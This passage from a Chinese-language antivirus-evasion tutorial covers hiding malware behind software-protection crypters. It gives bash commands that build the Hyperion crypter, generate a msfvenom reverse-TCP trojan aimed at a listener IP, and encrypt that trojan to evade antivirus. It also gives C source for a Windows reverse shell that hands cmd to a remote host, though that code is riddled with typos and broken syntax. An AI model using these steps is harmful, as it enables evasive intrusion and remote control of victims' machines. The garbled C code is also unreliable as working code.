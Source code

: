 [![BGGahF.md.png](https://s1.ax1x.com/2020/10/29/BGGahF.md.png)](https://imgchr.com/i/BGGahF)

VT免杀率（26/71）.火绒秒杀。



## 十一、软件保护

软件开发商为保护版本，采用的混淆和加密技术避免盗版逆向。

常被恶意软件用于免杀目的。

#### Hyperion

Hyperion （32bit PE 程序加密器）
Crypter / Container（解密器 PE Loader ）
 https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/

```bash
git clone https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-2.3.zip
unzip Hyperion-2.3.zip
dpkg --add-architecture i386 && apt-get update && apt-get install wine32
# 生成加密器
cd Hyperion-1.2 && i686-w64-mingw32-g++ -static-libgcc -static-libstdc++ Src/Crypter/*.cpp -o h.exe
# 生成木马程序
msfvenom -p windows/shell/reverse_tcp lhost=192.168.1.119 lport=4444 --platform win -e x86/shikata_ga_nai -a x86 -f exe -o p.exe
# 对木马程序进行加密
wine h.exe p.exe x.exe
#得到x.exe
```

#### 自己编写后门

* windows reverse shell

  win gcc.exe windows.c -o windows.exe -lws2_32

  ```c
  #include <winsock2.h>
  #include <stdio.h>
  #pragma comment(lib,"ws2_32")
  WSADATA wsaData;
  SOCKET Winsock;
  SOOKET Sock;
  struct sockaddr_in hax;
  char ip_addr[16];
  STARTUPINFO ini_processo;
  PROCESS_INFORMATION processo_info; 
  int main(int argc,char *argv[])
  {
   WSAStartup(MAKEWORD(2,2), wsaData);
   winsock=WSASoket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned int)NULL,(unsigned int)NULL);
   if (argc != 3){fprintf(stderr,"Uso: <rhost> <rport>\n";) exit(1);}
   struct hostent *host;
   host = gethostbyname(argv [1] );
   strcpy(ip_addr,inet_ntoa(*((struct in_addr *)host->h_addr)));
   hax.sin_family = AF_INET;
   hax.sin_port = htons(atoi(argv[2]));
   hax.sin_addr.s_addr = inet_addr(ip_addr);
   WSAConnect(Winsock,(SOCKADDR* &hax,sizeof(hax),NULL,NULL,NULL,NULL;
   memset(&ini_processo,0,sizeof(ini_processo));
   ini_processo.cb = sizeof(ini_processo);
   ini_processo.dwFlags = START_USESTDHANDLES;
   ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;
   CreateProcess(NULL,"cmd exe",NULL,NULL,TRUE,0,NULL,NULL,&ini_processo,&process_info);
  }
  ```
